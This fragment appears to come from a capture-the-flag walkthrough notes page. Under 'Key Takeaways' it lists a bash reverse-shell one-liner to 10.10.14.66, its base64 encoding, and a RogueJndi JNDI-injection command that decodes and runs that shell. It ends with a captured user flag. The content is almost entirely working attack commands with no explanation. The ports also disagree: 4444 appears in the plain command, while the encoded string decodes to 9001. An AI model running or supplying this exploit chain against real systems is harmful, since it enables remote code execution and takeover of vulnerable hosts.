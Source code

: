 ## Key Takeaways
1. echo 'bash -c bash -i >&/dev/tcp/10.10.14.66/4444 0>&1' | base64
2. YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNjYvOTAwMSAwPiYxCg==
3. java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNjYvOTAwMSAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.66"
4. 6ced1a6a89e666c0620cdb10262ba127 user flag
